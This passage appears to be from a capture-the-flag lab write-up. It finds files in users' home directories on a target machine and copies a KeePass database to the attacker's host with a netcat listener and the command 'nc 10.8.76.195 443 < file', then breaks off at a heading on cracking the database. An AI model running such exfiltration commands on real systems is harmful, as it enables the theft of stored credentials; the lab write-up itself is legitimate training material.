 
## Looting for Flags and Interesting Files

Search for files in `/home`:

```bash
find . -type f 2>/dev/null
```
Output:
```console
./kangchenjunga/.bash_history
./kangchenjunga/local.txt
./kangchenjunga/mynotes.txt
./nanga/ToDo.txt
./lhotse/Backup.kdbx
```

The file `/home/lhotse/Backup.kdbx` looks interesting.

---

## Downloading Backup.kdbx

Check permissions:

```bash
ls -la /home/lhotse/Backup.kdbx
```
Output:
```console
-rwxrwxrwx 1 lhotse lhotse 2302 Apr  6  2024 /home/lhotse/Backup.kdbx
```

**Transfer the file to your machine using Netcat:**

- On your machine:
  ```bash
  nc -lvnp 443 > Backup.kdbx
  ```
- On the target:
  ```bash
  nc 10.8.76.195 443 < /home/lhotse/Backup.kdbx
  ```

```console
$ nc -lvnp 443 > Backup.kdbx 
listening on [any] 443 ...
connect to [10.8.76.195] from (UNKNOWN) [10.201.24.213] 38896
```

![Backup.kdbx Downloaded](backup.kdbx.png)

---

## Cracking the KeePass Database
